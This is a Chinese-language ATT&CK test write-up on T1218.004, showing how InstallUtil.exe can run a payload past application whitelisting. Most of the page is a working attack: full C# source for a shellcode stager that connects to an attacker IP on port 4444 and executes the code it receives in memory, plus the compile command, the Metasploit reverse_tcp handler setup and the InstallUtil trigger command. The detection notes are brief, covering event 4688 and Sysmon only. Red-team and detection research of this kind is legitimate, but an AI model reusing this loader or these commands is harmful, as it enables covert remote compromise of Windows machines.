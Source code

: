 # T1218-004-win-使用Installutil.exe执行payload（白名单）

## 来自ATT&CK的描述

命令行实用程序InstallUtil可用于通过执行.NET二进制文件中指定的特定安装程序组件来安装和卸载资源。

InstallUtil位于Windows系统上的.NET目录中：

C:\Windows\Microsoft.NET\Framework\v\InstallUtil.exe

C:\Windows\Microsoft.NET\Framework64\v\InstallUtil.exe

InstallUtil.exe由Microsoft进行数字签名。攻击者可能会使用InstallUtil通过受信任的Windows实用程序来代理执行代码。攻击者还可以用Installutil来绕过进程白名单，方法是在二进制文件中使用属性，这些属性执行用属性[System.ComponentModel.RunInstaller(true)]修饰的类。

## 测试案例

说明：Installutil.exe所在路径没有被系统添加PATH环境变量中，因此，Installutil命令无法识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### x64 CS

```cs
using System;using System.Net;using System.Linq;using System.Net.Sockets;using System.Runtime.InteropServices;using System.Threading;using System.Configuration.Install;using System.Windows.Forms;
public class GQLBigHgUniLuVx {
public static void Main()
{
while(true)
{{ MessageBox.Show("doge"); Console.ReadLine();}}
}
 }

 [System.ComponentModel.RunInstaller(true)]
 public class esxWUYUTWShqW : System.Configuration.Install.Installer
 {
 public override void Uninstall(System.Collections.IDictionary zWrdFAUHmunnu)
 {
 jkmhGrfzsKQeCG.LCIUtRN();
 }

 }
 public class jkmhGrfzsKQeCG
 { [DllImport("kernel")] private static extern UInt32 VirtualAlloc(UInt32 YUtHhF,UInt32 VenifEUR, UInt32 NIHbxnOmrgiBGL, UInt32 KIheHEUxhAfOI);
 [DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 GDmElasSZbx, UInt32 rGECFEZG, UInt32 UyBSrAIp,IntPtr sPEeJlufmodo, UInt32 jmzHRQU, ref UInt32 SnpQPGMvDbMOGmn);
 [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr pRIwbzTTS, UInt32 eRLAWWYQnq);
 static byte[] ErlgHH(string ZwznjBJY,int KsMEeo) {
 IPEndPoint qAmSXHOKCbGlysd = new IPEndPoint(IPAddress.Parse(ZwznjBJY), KsMEeo);
 Socket XXxIoIXNCle = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

 try { XXxIoIXNCle.Connect(qAmSXHOKCbGlysd); }
 catch { return null;}
 byte[] UmquAHRnhhpuE = new byte[4];
 XXxIoIXNCle.Receive(UmquAHRnhhpuE,4,0);
 int kFVRSNnpj = BitConverter.ToInt32(UmquAHRnhhpuE,0);
 byte[] qaYyFq = new byte[kFVRSNnpj +5];
 int SRCDELibA =0;
 while(SRCDELibA < kFVRSNnpj)
 { SRCDELibA += XXxIoIXNCle.Receive(qaYyFq, SRCDELibA +5,(kFVRSNnpj - SRCDELibA)<4096 ? (kFVRSNnpj - SRCDELibA) : 4096,0);}
 byte[] TvvzOgPLqwcFFv =BitConverter.GetBytes((int)XXxIoIXNCle.Handle);
 Array.Copy(TvvzOgPLqwcFFv,0, qaYyFq,1,4); qaYyFq[0]=0xBF;
 return qaYyFq;}
 static void cmMtjerv(byte[] HEHUjJhkrNS) {
 if(HEHUjJhkrNS !=null) {
 UInt32 WcpKfU = VirtualAlloc(0,(UInt32)HEHUjJhkrNS.Length,0x1000,0x40);
 Marshal.Copy(HEHUjJhkrNS,0,(IntPtr)(WcpKfU), HEHUjJhkrNS.Length);
 IntPtr UhxtIFnlOQatrk = IntPtr.Zero;
 UInt32 wdjYKFDCCf =0;
 IntPtr XVYcQxpp = IntPtr.Zero;
 UhxtIFnlOQatrk = CreateThread(0,0, WcpKfU, XVYcQxpp,0, ref wdjYKFDCCf);
 WaitForSingleObject(UhxtIFnlOQatrk,0xFFFFFFFF); }}
 public static void LCIUtRN() {

byte[] IBtCWU =null; IBtCWU = ErlgHH("192.168.126.146",4444);
cmMtjerv(IBtCWU);
} }

```

#### 编译payload

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe  /unsafe C:\Users\Administrator\Desktop\a\installutil.cs
```

![编译payload](https://img-blog.csdnimg.cn/20200413152034249.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

![监听](https://img-blog.csdnimg.cn/20200413152209214.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 执行payload

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```

#### 反弹shell

![执行payload](https://img-blog.csdnimg.cn/20200413152353294.png)

## 测试留痕

```bash
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
```

![日志留痕](https://img-blog.csdnimg.cn/20200413152656624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1218-004

<https://attack.mitre.org/techniques/T1218/004/>

基于白名单Installutil.exe执行payload

<https://micro8.gitbook.io/micro8/contents-1/71-80/72-ji-yu-bai-ming-dan-installutil.exe-zhi-hang-payload-di-er-ji>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
